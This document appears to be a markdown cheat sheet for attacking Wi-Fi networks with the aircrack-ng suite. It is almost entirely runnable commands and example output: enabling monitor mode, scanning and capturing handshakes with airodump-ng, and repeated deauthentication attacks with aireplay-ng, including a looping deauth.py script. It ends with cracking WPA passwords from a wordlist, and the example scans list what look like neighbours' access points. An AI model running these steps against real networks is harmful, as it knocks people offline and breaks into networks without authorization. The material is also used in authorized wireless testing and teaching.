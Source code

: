 ### Show network information(Windows)

``` powershell
netsh wlan show network mode=bssid
```


### Available channel list

``` bash
┌──(kali㉿kali)-[~]
└─$ iwlist channel
lo        no frequency information.

eth0      no frequency information.

eth1      no frequency information.

wlan0     32 channels in total; available frequencies :
          Channel 01 : 2.412 GHz
          Channel 02 : 2.417 GHz
          Channel 03 : 2.422 GHz
          Channel 04 : 2.427 GHz
          Channel 05 : 2.432 GHz
          Channel 06 : 2.437 GHz
          Channel 07 : 2.442 GHz
          Channel 08 : 2.447 GHz
          Channel 09 : 2.452 GHz
          Channel 10 : 2.457 GHz
          Channel 11 : 2.462 GHz
          Channel 12 : 2.467 GHz
          Channel 13 : 2.472 GHz
          Channel 14 : 2.484 GHz
          Channel 36 : 5.18 GHz
          Channel 40 : 5.2 GHz
          Channel 44 : 5.22 GHz
          Channel 48 : 5.24 GHz
          Channel 52 : 5.26 GHz
          Channel 56 : 5.28 GHz
          Channel 60 : 5.3 GHz
          Channel 64 : 5.32 GHz
          Channel 100 : 5.5 GHz
          Channel 104 : 5.52 GHz
          Channel 108 : 5.54 GHz
          Channel 112 : 5.56 GHz
          Channel 116 : 5.58 GHz
          Channel 120 : 5.6 GHz
          Channel 124 : 5.62 GHz
          Channel 128 : 5.64 GHz
          Channel 132 : 5.66 GHz
          Channel 136 : 5.68 GHz
          Current Frequency:2.447 GHz (Channel 8)
```


### Enable monitor mode
``` bash
sudo ifconfig wlan0 down
# sudo airmon-ng check kill
sudo airmon-ng start wlan0
```


### Set Channel

``` bash
sudo iw dev wlan0mon set channel 8
```


### Airodump-ng scanning
``` bash
sudo airodump-ng wlan0mon

# 5GHz capture
airodump-ng --band a wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### Save traffic packets
``` bash
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### Execute aireplay-ng
``` bash
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```

### deauth.py
```python
import os, time

while True:
	os.system("aireplay-ng --deauth 10 -a 00:00:00:00:00:00 wlan0")
	time.sleep(1)

```

```bash
sudo python3 deauth.py
```




### Aireplay-ng error : (wlan0mon is on channel 2, but the AP uses channel 5)
``` bash
sudo airmon-ng start wlan0mon 5
sudo iwconfig wlan0mon channel 5
```



### Cracking password
``` bash
sudo aircrack-ng filename.cap -w dict.lst
```

---

#### Reference

- https://deliberate-practice.tistory.com/48

